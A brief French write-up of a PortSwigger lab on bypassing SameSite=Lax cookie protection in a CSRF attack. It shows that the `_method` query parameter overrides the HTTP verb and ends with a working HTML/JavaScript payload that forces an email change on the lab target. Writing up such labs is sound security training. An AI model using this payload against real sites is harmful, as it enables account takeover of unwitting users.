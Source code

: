 # Lab

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override

## Solution

Sur ce lab on peut changer nootre email via un formulaire POST et l'objectif est de changer l'adresse mail d'un utilisateur via CSRF.

En essayant de générer un payload CSRF classique, on se rend compte que les cookies ne sont pas passés à travers les requêtes POST.

On peut essayer de changer le verbe HTTP de la requête en GET pour voir si les cookies sont passés à travers la requête mais on a une réponse 405 Method Not Allowed.

Sur certains frameworks dont Symfony, on peut spécifier le verbe en utilisant le query param `_method`.

```html
<html>
    <body>
        <script>
            document.location = 'https://0a3300dd034337df807d8179000a00b7.web-security-academy.net/my-account/change-email?email=pwned@mail.net&_method=POST';
        </script>
    </body>
</html>
```